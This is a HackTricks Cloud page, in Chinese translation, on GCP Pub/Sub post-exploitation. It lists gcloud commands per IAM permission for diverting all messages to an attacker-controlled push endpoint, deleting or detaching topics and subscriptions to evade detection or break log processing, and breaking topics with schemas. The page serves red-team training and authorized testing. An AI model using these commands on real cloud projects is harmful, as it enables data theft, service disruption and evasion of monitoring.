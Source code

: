 # GCP - Pub/Sub 后期利用

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Pub/Sub

有关 Pub/Sub 的更多信息，请查看以下页面：

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

在主题中发布消息，适用于 **发送意外数据** 并触发意外功能或利用漏洞：
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

有助于防止订阅接收消息，可能是为了避免被检测。
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

有助于防止订阅接收消息，可能是为了避免被检测。\
即使有订阅附加到主题上，也可以删除该主题。
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

使用此权限更新主题的一些设置以干扰它，例如 `--clear-schema-settings`、`--message-retention-duration`、`--message-storage-policy-allowed-regions`、`--schema`、`--schema-project`、`--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

授予自己执行任何先前攻击的权限。

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

在网络服务器中获取所有消息：

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

创建一个订阅并使用它来 **拉取消息**：
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**删除订阅** 可能对破坏日志处理系统或类似的东西有用：
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

使用此权限更新某些设置，以便消息存储在您可以访问的地方（URL、Big Query 表、Bucket）或仅仅是为了干扰它。

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

授予自己执行之前评论的任何攻击所需的权限。

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

将一个模式攻击到一个主题，以便消息不符合它，从而导致主题中断。\
如果没有任何模式，您可能需要创建一个。

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

这看起来像是在删除一个模式，你将能够发送不符合该模式的消息。然而，由于模式将被删除，实际上没有消息会进入主题。因此这是**无用的**：
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

授予自己执行之前评论的攻击所需的权限。

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

这将创建所有未确认消息的快照并将它们放回订阅中。对攻击者来说不是很有用，但在这里它是：
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
